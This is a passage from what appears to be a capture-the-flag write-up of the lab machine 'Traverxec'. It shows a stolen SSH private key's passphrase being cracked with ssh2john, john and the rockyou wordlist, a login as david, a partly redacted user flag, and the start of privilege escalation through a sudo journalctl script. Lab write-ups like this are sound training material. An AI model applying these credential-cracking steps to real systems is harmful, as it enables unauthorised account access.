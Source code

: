 ```
-----END RSA PRIVATE KEY-----
```

We then try to connect to the box using the key with david account but the SSH
key is password protected. We use ssh2john to get a crackable hash and run john
with the rockyou dictionary on it.

```
python /usr/bin/ssh2john id_rsa > id_rsa.hash
john  id_rsa.hash -w=~/tools/password_lists/rockyou.txt
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
Warning: Only 1 candidate left, minimum 4 needed for performance.
1g 0:00:00:04 DONE (2019-11-27 15:12) 0.2061g/s 2957Kp/s 2957Kc/s 2957KC/s *7¡Vamos!
Session completed
```

We then connect to the box as david using the SSH key and its `hunter` password.
And we get the user flag.

```
# ssh david@10.10.10.165 -i id_rsa
Enter passphrase for key 'id_rsa':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Wed Nov 27 05:55:05 2019 from 10.10.14.25
david@traverxec:~$ cat user.txt
7db0b<redacted>
```

# Root part

When trying the command `sudo -l` we are prompt for a password. Neither of the
cracked password (`hunter` and `Nowonly4me`) works.

In the david home folder we find a `bin` folder containing a bash program.

    :::bash
    #!/bin/bash

    cat /home/david/bin/server-stats.head
    echo "Load: `/usr/bin/uptime`"
    echo " "
    echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
    echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
    echo " "
    echo "Last 5 journal log lines:"
    /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
